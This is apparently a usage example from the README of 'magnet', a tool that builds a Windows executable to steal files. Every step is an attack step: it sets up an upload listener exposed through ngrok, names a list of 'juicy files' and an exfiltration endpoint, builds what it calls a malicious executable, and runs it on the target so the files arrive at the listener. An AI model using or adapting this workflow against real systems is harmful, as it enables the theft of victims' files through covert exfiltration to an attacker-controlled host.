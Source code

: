 # Example

Below is a complete example of `magnet` usage

## Pre-requisites
* [`gitar`](https://github.com/ariary/gitar) but you could use the HTTP server of your choice, as long as file upload is possible
* [`ngrok`](https://ngrok.com/)
* [`lobfuscator`](https://github.com/ariary/magnet/blob/main/README.md#build-lobfuscator)
* Clone `magnet` repository and go inside it

Our target run a windows device

## 1. Set up attacker listener

Using 
```shell
## Launch HTTP Upload server
gitar -e 127.0.0.1
## Expose the server using
ngrok http 9237 #copy ngrok endpoint
```

## 2. Set environment variables
```shell
TARGET_OS=windows
FILES=samples/windows_juicy_files.txt
ENDPOINT=[NGROK_HTTPS_ENDPOINT]/[GITAR_RANDOM_PATH]/push
KEY=thisismytestkey
```

## 3. Build malicious executable
```shell
./build.sh $TARGET_OS $FILES $ENDPOINT $KEY
#build magnet.exe
```

## 4. Watch the magic happen

Transfer the executable on windows machine, execute it and observe:
```cmd
.\magnet.exe
```

On gitar listener you should receive the files
